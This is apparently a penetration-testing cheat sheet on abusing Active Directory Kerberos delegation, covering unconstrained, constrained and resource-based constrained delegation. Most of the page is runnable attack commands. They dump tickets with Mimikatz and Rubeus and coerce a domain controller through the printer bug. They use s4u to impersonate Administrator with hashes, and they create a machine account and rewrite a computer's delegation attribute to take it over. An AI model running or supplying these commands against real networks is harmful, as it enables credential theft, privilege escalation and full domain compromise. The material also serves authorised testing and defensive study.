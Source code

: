 # Delegation & Resource-based Delegation

## <mark style="color:red;">Unconstrained Delegation</mark>

{% embed url="https://resources.infosecinstitute.com/topic/active-directory-series-unconstrained-delegation" %}

#### Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer or a user. Usually, this privilege is given to computers  running services like IIS, MSSQL, etc. Those services usually require access to some back-end database (or some other server), so it can read/modify the database on the authenticated user's behalf.

When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory. The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf. Essentially this looks like so:&#x20;

<mark style="color:green;">User ---> authenticates to ---> IIS server ---> authenticates on behalf of the user ---> DB server</mark>

```powershell
# get tickets
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
Rubeus dump /service:krbtgt /nowrap
Rubeus dump /luid:0xdeadbeef /nowrap


# get unconstrained machines
Get-NetComputer -Unconstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

Unconstrained Delegation can be set on a _frontend service_ (e.g., an IIS web server) to allow it to delegate on behalf of a user to _any service in the domain_ (towards a _backend service_, such as an MSSQL database).

<mark style="color:green;">DACL UAC property:</mark> <mark style="color:green;"></mark><mark style="color:green;">`TrustedForDelegation`</mark><mark style="color:green;">.</mark>

### <mark style="color:orange;">Mimikatz</mark>

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation" %}

```
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
```

### <mark style="color:orange;">Rubeus</mark>

```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:doIFSDCC[...]
```

We can also gain the hash for a domain controller machine account, if that DC is vulnerable to the printer bug. If we do this successfully, we can DCSync the domain controller (see below) to completely compromise the current domain.

On the server with Unconstrained Delegation, monitor for new tickets with Rubeus.

```
.\Rubeus.exe monitor /interval:5 /nowrap
```

From attacking machine, entice the Domain Controller to connect using the printer bug. Binary from [here](https://github.com/leechristensen/SpoolSample).

```powershell
.\MS-RPRN.exe \\dc.targetdomain.com \\unconstrained-server.targetdomain.com
```

The TGT for the machine account of the DC should come in in the first session. We can pass this ticket into our current session to gain DCSync privileges (see below).

```powershell
.\Rubeus.exe ptt /ticket:doIFxTCCBc...
```

## <mark style="color:red;">Constrained Delegation</mark>

```powershell
# get tickets
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
Rubeus dump /service:krbtgt /nowrap
Rubeus dump /luid:0xdeadbeef /nowrap

# get constrained delegation machines
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

#### Constrained delegation can be set on the _front-end server_ (e.g. IIS) to allow it to delegate to _only selected back-end services_ (e.g. MSSQL) on behalf of the user.

<mark style="color:green;">DACL UAC property:</mark> <mark style="color:green;">`TrustedToAuthForDelegation`</mark>.&#x20;

This allows `s4u2self`, i.e. requesting a TGS on behalf of _anyone_ to oneself, using just the NTLM password hash. This effectively allows the service to impersonate other users in the domain with just their hash, and is useful in situations where Kerberos isn’t used between the user and frontend.

<mark style="color:green;">DACL Property:</mark> <mark style="color:green;"></mark><mark style="color:green;">`msDS-AllowedToDelegateTo`</mark>.&#x20;

This property contains the SPNs it is allowed to use `s4u2proxy` on, i.e. requesting a forwardable TGS for that server based on an existing TGS (often the one gained from using `s4u2self`). This effectively defines the backend services that constrained delegation is allowed for.

{% hint style="info" %}
These properties do NOT have to exist together!&#x20;

If `s4u2proxy` is allowed without `s4u2self`, user interaction is required to get a valid TGS to the frontend service from a user, similar to unconstrained delegation.
{% endhint %}

### <mark style="color:orange;">Rubeus</mark>

In this case, we use Rubeus to automatically request a TGT and then a TGS with the `ldap` SPN to allow us to DCSync using a machine account.

```
# Get a TGT using the compromised service account with delegation set (not needed if you already have an active session or token as this user)
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# Use s4u2self and s4u2proxy to impersonate the DA user to the allowed SPN
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt

# Same as the two above steps, but access the LDAP service on the DC instead (for dcsync)
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```

### <mark style="color:orange;">Computer Account</mark>

If you have compromised a machine account or in other words you have a SYSTEM level privileges on a machine that is configured with constrained delegation, you can assume any identity in the AD domain and authenticate to services that the compromised machine is trusted to delegate to.

Using powerview, we can find target computers like so:

```
Get-NetComputer ws02 | select name, msds-allowedtodelegateto, useraccountcontrol | fl
Get-NetComputer ws02 | Select-Object -ExpandProperty msds-allowedtodelegateto | fl
```

impersonate the administrator account:

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name

ls \\dc01.offense.local\c$
```

## <mark style="color:red;">Resource-based constrained delegation  (RBCD)</mark> <a href="#resource-based-constrained-delegation" id="resource-based-constrained-delegation"></a>

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution" %}

### <mark style="color:orange;">Kerberos Delegation vs Resource-based Kerberos Delegation</mark>

* In unconstrained and constrained Kerberos delegation, a computer/user is told what resources it can delegate authentications to;
* In resource based Kerberos delegation, computers (resources) specify who they trust and who can delegate authentications to them.

```
rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain>
getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>

rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

**Resource-Based Constrained Delegation (RBCD) configures the **_**back-end server**_** (e.g. MSSQL) to allow **_**only selected front-end services**_** (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.**

<mark style="color:green;">DACL Property:</mark> <mark style="color:green;"></mark><mark style="color:green;">`msDS-AllowedToActOnBehalfOfOtherIdentity`</mark><mark style="color:green;">.</mark>

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.

### <mark style="color:orange;">**Exploitation**</mark>

#### If we compromise a _frontend service_ that appears in the RBCD property of a _backend service_, exploitation is the same as with constrained delegation above. This is however not too common.

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.

```powershell
# Create a new machine account using PowerMad
import-module powermad
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```
